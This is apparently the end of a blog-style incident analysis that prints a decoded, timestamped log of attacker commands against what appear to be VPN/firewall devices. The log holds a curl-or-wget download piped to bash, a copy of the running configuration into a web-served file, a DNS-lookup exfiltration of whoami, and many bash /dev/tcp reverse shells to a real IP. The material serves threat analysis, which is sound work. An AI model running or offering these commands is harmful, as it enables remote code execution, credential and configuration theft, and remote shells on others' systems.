 2024-04-24T20:52:44.147842628-07:00 (curl -s -L http://138.197.162.79:65534/0dzFrRzQ.sh || wget -q -O - http://138.197.162.79:65534/0dzFrRzQ.sh)| bash -s
2024-04-25T00:27:58.191901794-07:00
2024-04-25T00:33:16.300909593-07:00 cp /opt/pancfg/mgmt/saved-configs/running-config.xml /var/appweb/sslvpndocs/global-protect/gpvpncfg.css
2024-04-25T06:50:18.995847126-07:00 nslookup uktmhf.dnslog.cn/`whoami`
2024-04-26T04:44:48.788847088-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:44:48.788847088-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:45:08.348860189-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:45:08.348860189-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:47:26.008874701-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:47:26.008874701-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:48:50.62593458-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:48:50.62593458-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:49:36.9198454-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:49:36.9198454-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:56:03.769869426-07:00 ls >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:56:03.769869426-07:00 ls >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:59:28.523933096-07:00 bash -i >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:59:28.523933096-07:00 bash -i >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T05:01:23.890861508-07:00 whoami >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:01:23.890861508-07:00 whoami >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:04:25.485975248-07:00 ls >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:04:25.485975248-07:00 ls >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:12:45.710458616-07:00 whoami >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:12:45.710458616-07:00 whoami >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:17:21.392894711-07:00 bash -i >& /dev/tcp/'54.162.164.22/13337 0>&1
2024-04-26T05:17:21.392894711-07:00 bash -i >& /dev/tcp/'54.162.164.22/13337 0>&1
2024-04-26T05:19:56.951910054-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T05:19:56.951910054-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T05:42:35.868634796-07:00 bash -i >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:42:35.868634796-07:00 bash -i >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:50:28.150592897-07:00 whoami >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T05:50:28.150592897-07:00 whoami >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T05:52:17.227560458-07:00 ls >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T05:52:17.227560458-07:00 ls >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T05:57:54.928589488-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T05:57:54.928589488-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T06:14:52.762631815-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T06:14:52.762631815-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T06:27:12.839608644-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T06:27:12.839608644-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T06:35:52.689538573-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T06:35:52.689538573-07:00 >& /dev/tcp/54.162.164.22/1337 0>&1337 0>&1
2024-04-26T06:37:01.104541553-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1
2024-04-26T06:37:01.104541553-07:00 bash -i >& /dev/tcp/54.162.164.22/1337 0>&1

{% endhighlight %}

The important part here, is that we are taking all the base64 from our query, and decoding to readable text for us to analyze.
